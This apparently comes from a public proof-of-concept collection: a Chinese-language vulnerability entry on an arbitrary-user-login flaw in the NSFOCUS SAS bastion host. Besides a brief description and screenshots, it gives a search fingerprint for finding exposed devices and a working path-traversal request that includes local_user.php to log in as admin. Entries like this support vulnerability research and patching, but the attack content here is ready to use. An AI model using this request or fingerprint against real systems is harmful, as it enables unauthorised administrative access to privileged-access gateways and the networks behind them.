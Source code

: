 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810132919858.png)

验证POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42-20230810132919979.png)